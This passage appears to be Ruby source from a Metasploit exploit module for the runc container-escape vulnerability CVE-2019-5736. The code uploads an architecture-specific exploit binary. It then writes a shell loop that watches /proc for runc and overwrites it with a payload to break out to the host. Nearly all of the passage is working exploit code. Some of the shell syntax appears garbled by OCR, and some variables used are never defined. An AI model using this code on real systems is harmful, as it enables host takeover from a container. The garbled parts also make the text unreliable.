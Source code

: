         print_status('Upload exploit')
        exe_path = "#{path}/#{rand_text_alphanumeric(5..10)}"
        upload_and_chmodx(exe_path, get_exploit)
        register_files_for_cleanup(exe_path)

        shell_path = "#{path}/#{rand_text_alphanumeric(5..10)}"
        @runc_backup_path = "#{path}/#{rand_text_alphanumeric(5..10)}"
        print_status("Upload loop shell script ('runc' will be backed up to #{@runc_backup_path})")
        upload(shell_path, loop_script(exe_path: exe_path, payload_path: payload_path))

        return shell_path
      end

      def upload(path, data)
        print_status("Writing '#{path}' (#{data.size} bytes) ...")
        begin
          write_file(path, data)
        rescue Rex::Post::Meterpreter::RequestError => e
          fail_with(Failure::NoAccess, "Unable to upload #{path}: #{e}")
        end
        register_file_for_cleanup(path)
      end

      def upload_and_chmodx(path, data)
        upload(path, data)
        chmod(path, 0o755)
      end

      def get_exploit
        target_arch = session.arch
        if session.arch == ARCH_CMD
          target_arch = cmd_exec('uname -a').include?('x86_64') ? ARCH_X64 : ARCH_X86
        end
        case target_arch
        when ARCH_X64
          exploit_data('CVE-2019-5736', 'CVE-2019-5736.x64.bin')
        when ARCH_X86
          exploit_data('CVE-2019-5736', 'CVE-2019-5736.x86.bin')
        else
          fail_with(Failure::BadConfig, "The session architecture is not compatible: #{target_arch}")
        end
      end

      def loop_script(exe_path:, payload_path:)
        <<~SHELL
          while true; do
            for f in /proc/*/exe; do
              tmp=${f%/*}
              pid=${tmp##*/}
              cmdline=$(cat /proc/${pid}/cmdline)
              if [[-z_${cmdline}|-z ${cmdline}]] || [[${cmdline}_==_*runc*|${cmdline} == *runc*]]; then
                #{exe_path} /proc/${pid}/exe #{payload_path} #{@runc_backup_path}&
                sleep 3
                mv -f #{@shell_bak} #{@shell}
                chmod +x #{@shell}
                exit
              fi
            done
          done
        SHELL
      end
